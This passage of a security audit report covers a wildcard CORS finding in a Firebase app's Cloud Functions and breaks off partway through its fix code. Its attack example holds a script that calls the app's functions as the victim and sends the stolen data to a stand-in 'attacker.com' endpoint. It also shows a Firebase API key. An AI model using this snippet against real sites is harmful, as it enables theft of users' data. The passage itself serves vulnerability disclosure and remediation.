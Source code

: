 ```typescript
  
  // Validate and sanitize
  if (email) validateEmail(email);
  if (phone) validatePhone(phone);
  const sanitizedName = sanitizeInput(name);
  
  // Use sanitized values...
});
```

---

### 12. 🟠 CORS Wildcard Allows Cross-Origin Attacks
**Severity:** HIGH (CVSS: 6.8)  
**CWE:** CWE-942 (Overly Permissive CORS Policy)

**Issue:**
All Cloud Functions use `cors: true` which allows requests from any origin:

```typescript
export const createSlotHold = onCall(
  { region: 'us-central1', cors: true },  // ❌ Allows any origin
  async (req) => { /* ... */ }
);
```

**Attack:**
Attacker creates malicious website that calls your functions:

```html
<!-- https://evil-site.com/attack.html -->
<script>
// Victim visits evil site while logged into your app
firebase.initializeApp({
  apiKey: "AIzaSyDMsLYmLj4qZR2Ty5sJJX9ZEZInc61dJos",
  // ... your config
});

// Steal victim's data
const functions = firebase.functions();
functions.httpsCallable('getAIConversation')({
  customerId: victim.uid
}).then(data => {
  // Send stolen data to attacker's server
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
</script>
```

**Fix:**
```typescript
// Use specific CORS configuration
import { onCall } from 'firebase-functions/v2/https';
import * as cors from 'cors';

const corsHandler = cors({
  origin: [
    'https://bueno-brows-7cce7.web.app',
    'https://bueno-brows-7cce7.firebaseapp.com',
    'https://bueno-brows-admin.web.app',
    'http://localhost:5173',  // Dev only
  ],
  credentials: true,
```